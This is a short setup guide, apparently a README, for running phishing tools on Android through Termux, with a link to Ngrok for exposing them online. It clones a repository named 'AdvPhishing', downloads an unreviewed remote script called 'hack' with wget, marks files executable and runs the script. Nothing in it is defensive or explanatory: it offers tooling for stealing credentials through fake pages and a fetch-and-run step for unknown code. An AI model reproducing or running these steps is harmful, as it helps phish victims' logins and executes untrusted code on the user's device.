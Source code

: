 *Follow This
Vist Ngrok = [Here](ngrok.com)
Download Termux = [Here](https://f-droid.org/repo/com.termux_112.apk)


```
pkg upgrade
pkg install wget
pkg install git
git clone https://github.com/Ignitetch/AdvPhishing
wget https://raw.githubusercontent.com/T-Dynamos/Tvirus2.0/main/hack
chmod +x *
echo Exectue = ./hack
```


